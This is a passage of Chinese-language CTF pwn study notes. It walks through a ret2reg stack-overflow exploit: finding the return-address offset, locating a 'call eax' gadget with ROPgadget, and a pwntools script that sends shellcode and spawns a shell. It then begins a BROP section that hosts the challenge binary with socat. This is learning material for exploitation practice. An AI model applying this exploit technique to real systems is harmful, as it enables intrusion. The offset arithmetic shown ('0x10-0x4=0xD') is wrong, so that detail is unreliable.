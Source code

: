 
查找返回地址偏移量

![image-20240406171827001](${images}/image-20240406171827001.png)

=0x10-0x4=0xD



通过ROPGadget查找到call/jmp命令

```
ROPgadget --binary ret2reg --only "call|eax"
```

![image-20240406172014411](${images}/image-20240406172014411.png)



pyload

```
from pwn import *

# 1.使用pwntools自带的功能生成shellcode
shellcode = asm(shellcraft.sh())

# 2.call eax的地址
call_eax = p32(0x08049019)

# 3.构造payload
payload = flat([shellcode , b'a'* (0x20c - len(shellcode) ),call_eax])

# 4.启动进程传递参数
io = process(argv=[ "./ret2reg",payload])

# 5.获得交互式shell
io.interactive()
```



### 1、（7）BROP

[ctf-challenges/pwn/stackoverflow/brop/hctf2016-brop at master · ctf-wiki/ctf-challenges · GitHub](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/brop/hctf2016-brop)

> 这里使用的是ubuntu系统运行这个文件，攻击的为kali
>
> 下载好brop文件后
>
> ```
> socat tcp-l:8888,fork exec:./brop
> ```
>
> ![image-20240406192740229](${images}/image-20240406192740229.png)




[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"
